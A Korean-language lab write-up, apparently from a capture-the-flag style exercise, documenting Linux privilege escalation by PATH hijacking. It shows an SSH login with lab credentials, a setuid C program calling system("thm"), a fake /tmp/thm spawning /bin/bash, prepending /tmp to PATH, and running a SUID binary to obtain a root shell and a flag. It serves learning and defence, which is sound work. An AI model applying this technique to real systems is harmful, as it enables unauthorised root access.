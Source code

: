 # Linux Privilege Escalation: PATH

> 환경 변수 PATH를 악용하여 실행 파일 대체 공격을 수행하고 루트 권한을 획득한 과정을 정리하였습니다.

---

## 1. 실습 개요
- **타겟 머신 IP**: 10.10.92.239
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **권한 상승 방법**: `PATH` 환경 변수 조작을 통한 바이너리 하이재킹
- **실습 일자**: 2025-04-19

---

## 2. 실습 과정

### 2.1 SSH 접속
```bash
ssh karen@10.10.92.239
```
- karen 계정으로 타겟 머신에 SSH 접속하였다.

![SSH 접속](./screenshots/ssh_connect.png)

---

### 2.2 취약 실행 파일 확인 및 준비
- `/home/murdoch` 디렉토리로 이동하니 `test` 실행 파일과 `thm.py` 파일이 존재하였다.

![murdoch 파일 발견](./screenshots/murdoch_file.png)

- `thm.py`는 Python으로 작성된 프로그램으로, 내부에서 `os.system("thm")`을 호출하고 있었다. 이 부분을 악용하기 위해 `thm.py`의 내용을 모두 제거하고 C로 작성한 setuid 프로그램 코드로 교체하였다.

```c
#include<unistd.h>
void main() {
  setuid(0);
  setgid(0);
  system("thm");
}
```
- 이후 파일명을 `thm.c`로 저장하였다.

![코드 확인 및 작성](./screenshots/setuid_thm.png)

---

### 2.3 리버스 쉘용 바이너리 작성
- `/tmp` 디렉토리로 이동하여 `thm`이라는 이름으로 셸 스크립트를 작성하였다.
```bash
echo "/bin/bash" > thm
chmod +x thm
```

![thm 셸 스크립트 작성](./screenshots/shell_script.png)

---

### 2.4 PATH 환경변수에 /tmp 추가
- `PATH` 환경 변수에 `/tmp`를 최우선으로 설정하였다.
```bash
export PATH=/tmp:$PATH
```

![PATH 설정](./screenshots/path_tmp.png)

---

### 2.5 SUID 파일 실행 및 루트 쉘 획득
- `/home/murdoch`로 돌아와 `test` 실행 파일을 실행하였다. 이 파일은 SUID 권한을 가지고 있었으며 내부적으로 `system("thm")`을 실행하므로 `/tmp/thm`이 실행되어 루트 쉘을 획득할 수 있었다.

```bash
./test
```

![루트 쉘 획득](./screenshots/root_shell.png)

---

### 2.6 루트 쉘 검증 및 플래그 파일 획득
```bash
find / -name flag6.txt
cat /home/matt/flag6.txt
```
- 루트 권한을 가진 상태에서 시스템을 탐색하여 플래그를 획득하였다.

![플래그 획득](./screenshots/flag_captured.png)

> PATH 환경 변수의 우선순위 특성을 악용하여 setuid 바이너리를 통해 루트 쉘을 획득하였다.

---

## 느낀 점
> 실습을 통해 **PATH 환경 변수의 관리 부주의가 어떻게 치명적인 보안 취약점으로 이어질 수 있는지 체감**할 수 있었다. 시스템 관리자가 경로 지정 없이 명령어를 호출하는 경우, 공격자가 원하는 실행 파일로 하이재킹이 가능하며, 특히 **SUID 바이너리와 조합될 경우 권한 상승으로 직결될 수 있는 매우 위험한 구조**임을 확인하였다.